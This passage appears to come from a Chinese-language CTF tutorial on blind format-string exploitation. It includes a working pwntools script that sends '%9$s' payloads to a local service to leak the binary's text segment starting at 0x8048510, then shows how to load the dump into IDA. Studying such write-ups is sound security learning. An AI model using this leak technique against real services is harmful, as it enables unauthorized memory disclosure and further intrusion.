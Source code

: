 最后在偏移 1164 和 1188 找到 text 段地址 0x8048510 ，可以对比上图，上图是这条例题的截图：

![](https://mrskye.cn-gd.ufileos.com/img/2020-06-27-Z0d5pjXygPrfk4kN.png)

泄露脚本和前面一样只需要修改一下起始地址：

```python
#! /usr/bin/env python 
# -*- coding: utf-8 -*- 
from pwn import *
import binascii
context.log_level = 'info' 
r = remote('127.0.0.1',10001)

def leak(addr):
    payload = "%9$s.TMP" + p32(addr)
    r.sendline(payload)
    print "leaking:", hex(addr)
    r.recvuntil('right:')
    ret = r.recvuntil(".TMP",drop=True)
    print "ret:", binascii.hexlify(ret), len(ret)
    remain = r.recvrepeat(0.2)
    return ret

# name
r.recv()
r.sendline('nameaaa')
r.recv()

# leak
begin = 0x8048510
#begin = 0x8048000
text_seg =''
try:
    while True:
        ret = leak(begin)
        text_seg += ret
        begin += len(ret)
        if len(ret) == 0:   # nil
            begin +=1
            text_seg += '\x00'
except Exception as e:
    print e
finally:
    print '[+]',len(text_seg)
    with open('dump_bin_text','wb') as f:
        f.write(text_seg)
```

将泄露文件放入 ida 分析，启动时选择**以 binary file 加载**，勾选**Load as code segment**，并**调整偏移为： 0x8048510 **（开始泄露地址）：

![](https://mrskye.cn-gd.ufileos.com/img/2020-06-27-Z6eK911DhQLF67iW.png)
